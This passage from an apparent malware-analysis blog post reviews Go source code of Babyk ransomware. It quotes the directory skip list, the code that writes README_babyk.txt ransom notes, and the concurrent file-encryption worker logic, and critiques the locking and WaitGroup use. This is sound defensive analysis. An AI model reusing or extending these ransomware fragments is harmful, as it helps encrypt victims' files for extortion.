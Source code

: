 In the case of a directory we see a nice long list blacklisted dirs. Most of these contain system critical files that, if encrypted, would render the operating system unusable. In the case that a directory is not skipped, a `README` file is output.

```golang
if strings.Contains(info.Name(), "/proc") ||
	strings.Contains(path, "/boot") ||
	strings.Contains(path, "/sys") ||
	strings.Contains(path, "/run") ||
	strings.Contains(path, "/dev") ||
	strings.Contains(path, "/etc") ||
	strings.Contains(path, "/home/httpd") ||
	strings.Contains(path, ".system/thumbnail") ||
	strings.Contains(path, ".system/opt") ||
	strings.Contains(path, ".config") ||
	strings.Contains(path, ".qpkg") ||
	strings.Contains(path, "/mnt/ext/opt") {
	return filepath.SkipDir
}

ioutil.WriteFile(path+"/README_babyk.txt", note, 0777)
```

## Code Review

As I mentioned above, I think the use of the lock in `encrypt_file()` is incorrect. 

```golang
l.Lock()
var cc20_k = sha256.Sum256([]byte(shared[:]))
var cc20_n = sha256.Sum256([]byte(cc20_k[:]))
l.Unlock()
```

The variable `shared` is a function scope variable, so there should not be any thread contention there, as well `cc20_k` is scoped immediately prior. The thought is maybe `Sum256()` is not thread safe but looking at the [source code](https://cs.opensource.google/go/go/+/refs/tags/go1.17:src/crypto/sha256/sha256.go;l=253) it seems to be as the digest `d` in that function is local to the function, so there is not some package state code. 

*If the author or anyone else can explain this usage, please reach out [@TACIXAT](https://twitter.com/TACIXAT) on Twitter.*

Let's also take a look at the `WaitGroup`. A wait group is used as sentinel. Generally, when a worker is started, you add 1 to the wait group, then when they finish they mark it as done which decrements one. The parent process then can block on the wait group until all workers are finished. 

```golang
func encrypt_file(wg *sync.WaitGroup, path string) {
	defer wg.Done()
	// ...
}

func main() {
	filepath.Walk( // ...
		// ...
		if info.IsDir() == false {
			// ...	
			if queue_counter >= queue_max {
				wg.Wait()
				queue_counter = 0
			}

			wg.Add(1)
			go encrypt_file(&wg, path)
			queue_counter += 1
		}
```